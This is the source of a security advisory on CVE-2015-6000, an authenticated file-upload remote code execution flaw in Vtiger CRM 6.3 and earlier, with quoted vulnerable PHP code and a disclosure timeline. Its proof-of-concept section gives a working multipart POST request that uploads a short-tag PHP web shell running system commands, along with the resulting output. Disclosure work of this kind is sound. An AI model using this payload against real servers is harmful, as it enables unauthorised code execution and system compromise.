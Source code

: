 ```yaml
---
layout: post
published: true
title: "Vtiger CRM <= 6.3 Authenticated Remote Code Execution (CVE-2015-6000)"
tags: [cve, rce, vtiger, web]
category: Vulnerabilities
excerpt: "Vtiger CRM version 6.3 (“Open Source” branch; released on 2015-06-04) and lower are vulnerable to Authenticated Remote Code Execution."
image:
  feature: banner-vtiger2.jpg
---
```


## Table of Contents

1. [Summary](#summary)
2. [Vulnerability Details](#details)
3. [Exploitation / Proof of Concept](#poc)
4. [Timeline](#timeline)
5. [See Also](#seealso)


## 1. Summary<a id="summary"></a>

Vtiger CRM  <https://www.vtiger.com/open-source/> is a CRM application.

Vtiger CRM version 6.3 (“Open Source” branch; released on 2015-06-04) and lower are vulnerable to Authenticated Remote Code Execution.


## 2. Vulnerability Details<a id="details"></a>

Vtiger CRM allows for the upload of a "company logo" from within the administrative interface. The corresponding functionality can be accessed on the "CRM Settings" page (Settings -> CRM Settings -> Templates -> Company Details -> "Edit" button; (<.../index.php?parent=Settings&module=Vtiger&view=CompanyDetails&block=4&fieldid=15>).

Multiple flaws in the Settings_Vtiger_CompanyDetailsSave_Action class allow attackers to upload files with arbitrary file names and (almost) arbitrary contents, including, but not limited to, PHP code passing commands to the underlying operating system.

First, the file type check is based solely on the MIME type ("Content-Type") sent by the client:

{% highlight php %}
    (Source file:  vtigercrm/modules/Settings/Vtiger/actions/CompanyDetailsSave.php)
<?
    [...]
    class Settings_Vtiger_CompanyDetailsSave_Action extends Settings_Vtiger_Basic_Action {
    [...]
    $logoDetails = $_FILES['logo'];
    $fileType = explode('/', $logoDetails['type']);
    $fileType = $fileType[1];
    if (!$logoDetails['size'] || !in_array($fileType, Settings_Vtiger_CompanyDetails_Model::$logoSupportedFormats)) {
        $saveLogo = false;
    }
    [...]
?>
{% endhighlight %}


This is followed by an insufficient check for PHP code inside the uploaded file:

{% highlight php %}
    (Source file:  vtigercrm/modules/Settings/Vtiger/actions/CompanyDetailsSave.php)
<?
    [...]
    // Check for php code injection
    $imageContents = file_get_contents($_FILES["logo"]["tmp_name"]);
    if (preg_match('/(<\?php?(.*?))/i', $imageContents) == 1) {
        $saveLogo = false;
    }
    [...]
?>
{% endhighlight %}

Not only can this check be circumvented by using PHP short tags instead of “<?php “. It also provides no protection whatsoever against uploads of code written in scripting languages other than PHP, which, depending on the system configuration, may or may not be executable.

Vtiger CRM then saves the uploaded file's contents with the client-specified file name in the publicly accessible "test/logo/" directory:

{% highlight php %}
    (Source file: modules/Settings/Vtiger/models/CompanyDetails.php)
<?
    [...]
    class Settings_Vtiger_CompanyDetails_Model extends Settings_Vtiger_Module_Model {
    [...]
    var $logoPath = 'test/logo/';
    [...]
    public function saveLogo() {
        $uploadDir = vglobal('root_directory'). '/' .$this->logoPath;
        $logoName = $uploadDir.$_FILES["logo"]["name"];
        move_uploaded_file($_FILES["logo"]["tmp_name"], $logoName);
        copy($logoName, $uploadDir.'application.ico');
    }
    [...]
?>
{% endhighlight %}


Combining these flaws, an attacker can transfer arbitrary code to the web server, as long as s/he provides a permitted MIME type (e.g. "Content-Type: image/jpeg") and avoids the string “<?ph” within the code . The code can then be run by accessing the location of the uploaded file ("&lt;Vtiger URL>/test/logo/&lt;attacker-specified file name>").



## 3. Exploitation / Proof of Concept<a id="poc"></a>

Through a specially crafted HTTP-POST request,  a PHP file is stored on the server hosting the Vtiger CRM software: 


    POST /index.php HTTP/1.1
    Host: [...]
    Cookie: [...]
    Connection: keep-alive
    Content-Type: multipart/form-data; boundary=---------------------------51732462825208
    Content-Length: 2040

    -----------------------------51732462825208
    Content-Disposition: form-data; name="__vtrftk"

    [...]
    -----------------------------51732462825208
    Content-Disposition: form-data; name="logo"; filename="2.php"
    Content-Type: image/jpeg

    <? system('id; uname -a; /sbin/ifconfig -a'); system('cat ../../vtigerversion.php'); ?>
    -----------------------------51732462825208
    Content-Disposition: form-data; name="address"
    [...]


The resulting PHP file can then be accessed at &lt;Vtiger URL>/test/logo/2.php , which will execute the given commands and display their output:


    uid=3491(mussKV4JcX9c) gid=3491(mussKV4JcX9c) groups=3491(mussKV4JcX9c)
    Linux [...] 3.2.0-77-virtual #114-Ubuntu SMP Tue Mar 10 17:38:02 UTC 2015 x86_64 x86_64 x86_64 GNU/Linux
    eth0      Link encap:Ethernet  HWaddr [...] 
              inet addr: [...]


## 4. Timeline<a id="timeline"></a>

2015-08-28 Vulnerability reported to Vtiger.  
2015-09-01 Vtiger acknowledges vulnerability.  
2015-09-03 CVE-2015-6000 assigned by CERT/CC.  
2015-09-28 Public disclosure.  
2015-10-06 [Security patch](http://sourceforge.net/projects/vtigercrm/files/vtiger%20CRM%206.3.0/Core%20Product/) released.  
2015-10-16 [Vtiger CRM 6.4.0 released.](http://sourceforge.net/projects/vtigercrm/files/vtiger%20CRM%206.4.0/Core%20Product/) ([Announcement](http://lists.vtigercrm.com/pipermail/vtigercrm-developers/2015-October/033693.html))  

## 5. See Also<a id="seealso"></a>

* CVE-2015-6000 at cve.mitre.org: <http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2015-6000>
* CVE-2015-6000 at NVD: <http://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2015-6000>
* PoC at exploit-db.com: <https://www.exploit-db.com/exploits/38345/>

